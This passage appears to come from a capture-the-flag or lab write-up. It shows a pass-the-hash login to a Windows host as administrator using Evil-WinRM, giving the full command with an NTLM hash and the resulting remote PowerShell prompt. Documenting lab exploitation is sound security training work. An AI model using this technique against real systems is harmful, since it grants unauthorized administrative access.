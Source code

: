 Logging in with Evil-WinRM and passing the hash:

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.51 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
